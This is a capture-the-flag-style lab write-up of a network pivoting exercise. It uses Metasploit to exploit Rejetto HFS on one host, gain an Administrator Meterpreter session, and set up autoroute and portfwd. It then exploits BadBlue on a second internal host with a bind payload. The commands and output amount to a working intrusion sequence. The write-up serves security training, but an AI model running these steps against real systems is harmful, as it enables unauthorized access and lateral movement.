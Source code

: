 # 🔬Pivoting

> 🔬 [Pivoting](https://attackdefense.com/challengedetails?cid=2332)
>
> - Victim1 IP: `10.2.20.197`
> - VIctim2 IP: `10.2.31.35`
> - **Pivoting** technique with a *network route* to the internal network's subnet

## Enumeration & Exploitation

```bash
ping 10.2.20.197
    PING 10.2.20.197 (10.2.20.197) 56(84) bytes of data.
    64 bytes from 10.2.20.197: icmp_seq=1 ttl=125 time=2.25 ms
    64 bytes from 10.2.20.197: icmp_seq=2 ttl=125 time=1.99 ms

ping 10.2.31.35
	PING 10.2.31.35 (10.2.31.35) 56(84) bytes of data.
# No response from Victim2
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
workspace -a Pivoting
db_nmap -sV -p 80 10.2.20.197
	80/tcp open  http  HttpFileServer httpd 2.3
```

```bash
use exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.2.20.197
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
	
ipconfig
    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

    Interface 12
    ============
    Name         : AWS PV Network Device #0
    Hardware MAC : 02:58:bb:f0:89:2a
    MTU          : 9001
    IPv4 Address : 10.2.20.197
    IPv4 Netmask : 255.255.240.0
    IPv6 Address : fe80::d192:bf14:b3e2:1211
    IPv6 Netmask : ffff:ffff:ffff:ffff::
    
    Interface 24
    ============
    Name         : Microsoft ISATAP Adapter #2
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1280
    IPv6 Address : fe80::5efe:a02:14c5
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

- Victim2 is on the same Victim1 subnet - **`	10.2.16.0/20`** (look at the Interface 12)
  - ` 10.2.16.0/20` = from `10.2.16.1` to ` 10.2.31.254` = `10.2.20.0/20`


## Pivoting

- From the attacker's machine, a route through "Victim1 `10.2.20.0/20` machine" is needed, to run MSF modules against Victim2 machine

```bash
run autoroute -s 10.2.20.0/20
```

```bash
[+] Added route to 10.2.20.0/255.255.240.0 via 10.2.20.197

run autoroute -p
```

- Now, subnet `10.2.20.0/20` can be accessed with `MSFconsole`

```bash
background
```

- Scan for open ports on the Victim2 system - `10.2.31.35`

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.31.35
set PORTS 1-100
run
```

![](5-post-exploitassets/image-20230429181515706.png)

- 📌 The route is only applicable to `MSFconsole`, not outside of it

## Port Forwarding

- To perform an `nmap` scan on Victim2, **a port forwarding need to be set up**.
  - **`e.g.`** forward the remote port `80` to an attacker machine local port, which will allow to perform a service version enumeration of the Victim2 service

```bash
sessions 1
```

```bash
portfwd add -l 1234 -p 80 -r 10.2.31.35
	[*] Local TCP relay created: :1234 <-> 10.2.31.35:80

background
```

```bash
db_nmap -sS -sV -p 1234 localhost
```

![Victim2 Port 80 Service](5-post-exploitassets/image-20230429181718891.png)

- Exploit Victim2 target machine

```bash
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.2.31.35
set LPORT 4433
run
```

![](5-post-exploitassets/image-20230429181838691.png)

```bash
background
sessions
```

![](5-post-exploitassets/image-20230429182027415.png)

------


